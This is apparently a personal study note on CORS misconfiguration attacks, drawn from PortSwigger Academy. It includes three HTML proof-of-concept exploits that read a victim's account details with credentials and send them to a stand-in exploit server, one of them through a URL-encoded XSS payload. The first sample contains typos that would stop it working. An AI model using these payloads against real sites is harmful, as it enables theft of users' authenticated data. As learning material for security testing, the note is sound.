 # References
- [Cross-Origin Resource Sharing - Rana Khalil](https://www.youtube.com/watch?v=t5FBwq-kudw)
- [Portswigger Academy](https://portswigger.net/web-security/cors)

# CORS headers
- `Access-Control-Allow-Origin` header: Specifies if the origin is allowed to access the resources of the website. Only access public pages.
- The values could be:
```
*
<origin>
null
```
- Each with its security implications
- `Access-Control-Allow-Credentials: true` Allow authenticated pages
- Note: if`Access-Control-Allow-Origin` is set to `*` then the `Access-Control-Allow-Credentials` header is not allowed

# CORS Vulnerabilities
- The Access-Control-Allow-Origin header only allows to whitelist one origin, this is a limitation that developers need to circumvent
- They use `dynamic generation` to address this limitation
- The logic of how an origin is decided to be trusted is what causes the misconfigurations
## Testing Methodology
- Look at server responses and check for "Access-Control-Allow-Origin" or "Access-Control-Allow-Credentials"
- Add or change the origin header to set the current host as a subdomain of an attacker controlled domain "current-host.net.attacker-site.com" and observe the server response
- Add or change the origin header to a subdomain of the current Host value and observe the server response
- Add or change the origin header to an arbitrary value and observe the server response
- Add or change the origin header to "null" value and observe the server response

# Samples
1. Dynamic generation
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
        var xhr = new XMLHttpRequest();
        var url = "https://vulnerable-site.com"
        xhr.onreadoystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open('GET', url + "/accountDetails", true);
        xhr.withCrendentials = true;
        xhr.send(null);
        </script>
    </body>
</html>
```

2. Null whitelisted: use an iframe. In the second "x.open" specify the full PATH of the exploit server since the request is coming from a sandboxed iframe
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display: none" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        xhr=new XMLHttpRequest();
        xhr.onload=function(){
            const x=new XMLHttpRequest()
            x.open('GET', 'https://exploit-server.net/log?key='+btoa(this.responseText))
            x.send()
        }
        xhr.open('GET', 'https://vulnerable-site/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send();
        </script>"></iframe>
    </body>
</html>

```
3. Insecure HTTP protocol in CORS policy + subdomain vulnerable to XSS
```html
<html>
    <body>
        <script>
        document.location='http://vulnerable-site.net/?parameter=%3Cscript%3Evar%20req%20=%20new%20XMLHttpRequest();%20req.onload%20=%20function(){x%20=%20new%20XMLHttpRequest();%20x.open(%27get%27,%20%27https://exploit-server.net/log?key=%27%2bbtoa(this.responseText));%20x.send()};%20req.open(%27get%27,%27vulnerable-site.net/accountDetails%27,true);%20req.withCredentials%20=%20true;req.send();%3c/script%3E'
        </script>
    </body>
</html>
```
# Extras to read
- https://quitten.github.io/StackStorm/
- https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
- https://blog.saynotolinux.com/blog/2016/08/15/jetbrains-ide-remote-code-execution-and-local-file-disclosure-vulnerability-analysis/
